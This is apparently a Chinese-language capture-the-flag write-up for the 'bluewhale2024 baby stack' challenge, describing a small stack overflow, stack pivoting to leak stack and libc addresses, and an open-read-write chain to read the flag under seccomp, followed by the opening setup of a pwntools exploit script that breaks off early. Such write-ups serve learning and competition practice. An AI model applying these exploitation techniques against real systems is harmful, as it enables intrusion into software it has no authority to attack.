 ```yaml
---
title: bluewhale2024 - baby stack
date: 2024/5/3 23:26:00
updated: 2024/7/25 12:34:56
tags:
    - stack pivot
excerpt: 通过栈溢出和栈迁移泄露地址，最终获取flag。
---
```


{% note %}
没有exec的生活是如此困难，但好在flag放在了根目录下面
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.23-0ubuntu11.3|

## seccomp rules

<img src="/assets/bluewhale2024/seccomp.png" height="70%" width="70%">

## 解题思路

可以栈溢出，但是只有0x10字节，因此考虑栈溢出。开了沙箱，不能拿shell，打orw

先通过rbp泄露栈地址，然后栈迁移回rsp泄露libc；由于此时无法控制rdx，
所以还需要再执行一次`func`，再栈迁移一次完成orw

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './stack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20532)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)
    gadgets = ROP(elf)
    readPlt = elf.plt['read']
```
